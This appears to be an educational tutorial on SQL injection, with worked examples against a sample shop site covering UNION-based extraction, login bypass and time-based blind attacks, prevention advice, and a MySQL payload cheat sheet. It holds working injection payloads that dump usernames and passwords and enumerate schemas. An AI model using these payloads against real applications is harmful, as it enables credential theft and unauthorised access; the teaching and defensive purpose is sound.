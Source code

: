 

 <h1 align="center">Support Document: Introduction to SQL Injection </h1>

​																												           Author: NGUYEN Vinh Thanh



#### **𝗦𝗤𝗟** **𝗜𝗻𝗷𝗲𝗰𝘁𝗶𝗼𝗻** **was first discovered by Hacker Jeff Forristal in issue 54 of Hacker Zine Phrack magazine on Christmas Eve 1998 ([http://phrack.org/issues/54/8.html](http://phrack.org/issues/54/8.html?fbclid=IwAR2symki0g-L3YAWxzvjQJmDtCgBP07tKWLaAEszT45mMl28zgQkHhkvyiw)). 25 years later, SQLi is still in the top 10 most common security flaws in the world.**



### <u>**Brief**</u>

​	SQL (Structured Query Language) Injection, mostly referred to as SQLi is an attack on a web application database server that causes malicious queries to be executed. When a web application communicates with a database using input from a user that hasn't been properly validated, there runs the potential of an attacker being able to steal, delete or alter private and customer data and also attack the web applications authentication methods to private or customer areas. This is why as well as SQLi being one of the oldest web application vulnerabilities, it also can be the most damaging.



### <u>**What is SQL Injection**</u>

​	Consider a dynamic website (programmed in PHP in this example) that has a system that allows users to search for products available from database. When the user clicks on the Gifts category, their browser requests the URL:

```html
https://jedha-boutique.com/products?category=Gifts
```

This causes the application to make a SQL query to retrieve details of the relevant products from the database:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1;
```

The application doesn't implement any defenses against SQL injection attacks, so an attacker can construct an attack like:

```
https://jedha-boutique.com/products?category=Gifts’;--
```

This results in the SQL query:

```sql
SELECT * FROM products WHERE category = 'Gifts';-- ' AND released = 1;
```

The double dash -- effectively removes the remainder of the query, so it no longer includes *AND released = 1*. This means that all products are displayed, including unreleased products.

​	

### <u>**Union-Based SQL Injection**</u>

​	Let's move on to a more advanced SQLi technique using SQL UNION operator alongside a SELECT statement to return additional results to the page. This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability from other database tables.

Continue with the site *jedha-boutique.com* , but this time we try with the UNION operator:

```
https://jedha-boutique.com/products?category='+UNION+SELECT+username,+password+FROM+users;--
```

The SQL query then becomes:

```sql
SELECT name, description FROM products WHERE category = '' UNION SELECT username, password FROM users;-- ' AND released = 1;
```

This will cause the application to return all usernames and passwords along with the names and descriptions of products.



### <u>**Blind SQL Injection - Login Bypass**</u>

​	Unlike SQL injection Vulnerability that we have discussed above, where we can see the results of our attack directly on the screen, blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless. This is where a trick with time will help us exploit this flaw.



​	Let's say our site allows login with credentials through a login form. In basic terms, the web application is asking the database "do you have a user with the username **alice** and the password **alice123**?", and the database replies with either yes or no (true/false) and, depending on that answer, dictates whether the web application lets you proceed or not. 

Here is the SQL query:

```sql
SELECT username,password FROM users WHERE username='%username%' AND password='%password%' LIMIT 1;
```

The **%username%** and **%password%** values are taken from the login form fields, the initial values in the SQL Query box will be blank as these fields are currently empty.

If a hacker tries to login with username **whatever** and password *' OR 1=1;--*, the query now changes to:

```sql
SELECT username,password FROM users WHERE username='whatever' AND password='' OR 1=1;-- ' LIMIT 1;
```

Since we add an OR operator with statement 1=1, which is always true, the query will always return as true, and access should be allowed on the website.

We can also disable the password checking part in the query with the payload like this:

```sql
SELECT username,password FROM users WHERE username='admin';-- ' and password='whatever' LIMIT 1;
```

This payload allows us to login as **admin** without a proper password.



### <u>**Blind SQL Injection - Time-based attack**</u>

​	This time, instead of trying to login, we want to enumerate a whole database structure and contents. However, unlike normal SQL injection with the search function where the result can clearly be seen, we only have access to the login form.

​	Let's exploit the SQLi vulnerability with the same example of Login Bypass above. Assuming that in the  table **users** exists a column named **telephone_number** We can use the payload like this:

> username: ' UNION SELECT SLEEP(5),telephone_number FROM users WHERE username='admin' and telephone_number LIKE '0%';--
>
> password: whatever

The query now is : 

```sql
SELECT username,password FROM users WHERE username='admin' UNION SELECT SLEEP(5),telephone_number FROM users WHERE username='admin' AND telephone_number LIKE '0%';-- ' AND password='whatever' LIMIT 1;
```

If there is a delay of approximately 5 seconds in the login page, it is confirmed that the user **admin** has a telephone number starting with a number **0**. Else, we keep trying with another number.

As we cycle through every possible digits, eventually the telephone number of the user **admin** is revealed.

To enumerate the whole database, it is possible to write a script ourselves, or use the tools like **sqlmap** or **burp suite** to automate the task



### <u>**SQL Injection - How to prevent**</u>

- **Prepared Statements (With Parameterized Queries):** In a prepared query, the first thing a developer writes is the SQL query and then any user inputs are added as a parameter afterwards.  When a prepared statement is created, the SQL code is parsed and compiled once, and the parameter placeholders are replaced with question marks. When a user provides input, it is treated as a parameter and is bound to a placeholder. This means that the input is never interpreted as part of the SQL code, which prevents the attacker from injecting malicious code into the query.

- **Sanitize user input:** Validate and sanitize user input by removing any special characters or unexpected input that could be used for malicious purposes.

  

### <u>**SQLi Cheat sheet for MySQL**</u>

* Database enumeration: 

  ```mysql
  SELECT @@version #MySQL version
  
  0 UNION SELECT database() # Current database name
  ```

* Tables:

  ```mysql
  0 UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'DATABASE_NAME'
  ```

* Column name:

  ```mysql
  0 UNION SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = 'TABLE_NAME'
  ```

* Table Content:

  ```mysql
  0 UNION SELECT group_concat(username,':',password SEPARATOR '<br>') FROM TABLE_NAME
  ```

* Time delay:

  ```mysql
  SELECT SLEEP(10) # Sleep 10 seconds	
  ```

* Conditional time delay:

  ```mysql
  SELECT IF(YOUR-CONDITIONS-HERE ,SLEEP(10),'a')
  ```

* Comment

  ```mysql
  #Comment
  -- Comment   #Attention to the space after double dash
  /*comment*/  #This one is rarely used
  ```



### <u>**References**</u>

1. PortSwigger's Web Security Academy Blog "SQL Injection" 

   https://portswigger.net/web-security/sql-injection

2. Jeff Forristal - Hacker Zine Phrack magazine 

   http://phrack.org/issues/54/8.html

3. Tryhackme SQL Injection Room

   https://tryhackme.com/room/sqlinjectionlm

4. Tryhackme SQL Injection Lab

   https://tryhackme.com/room/sqlilab

   

   
